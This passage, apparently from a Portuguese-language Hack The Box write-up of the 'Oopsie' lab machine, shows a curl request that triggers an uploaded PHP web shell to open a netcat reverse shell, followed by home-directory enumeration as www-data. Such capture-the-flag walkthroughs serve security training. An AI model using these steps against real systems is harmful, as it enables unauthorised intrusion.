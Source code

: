 E conseguimos o upload com sucesso.

<img src="/img/htb/htb-oopsie-16.png">

Como já identificamos o diretório `uploads` com o gobuster, podemos fazer um curl para nosso shell.php e verificar nosso netcat.

```bash
┌──(hastur㉿hastur)-[~/Oopsie]
└─$ curl http://10.10.10.28/uploads/shell.php
```

E conseguimos nosso shell.

<img src="/img/htb/htb-oopsie-17.png">

Porém estamos num shell com o usuário `www-data` que basicamente não tem privilégios, precisamos de uma escalação de privilégios horizontal para tentarmos uma exploração mais efetiva.

No diretório `/home` vemos somente um usuário:

```bash
www-data@oopsie:/home$ ls -la
ls -la
total 12
drwxr-xr-x  3 root   root   4096 Jan 23  2020 .
drwxr-xr-x 24 root   root   4096 Jan 27  2020 ..
drwxr-xr-x  5 robert robert 4096 Feb 25  2020 robert
```
Após enumerar vários diretórios, encontrei um arquivo interessante em `/var/www/html/cdn-cgi/login`.
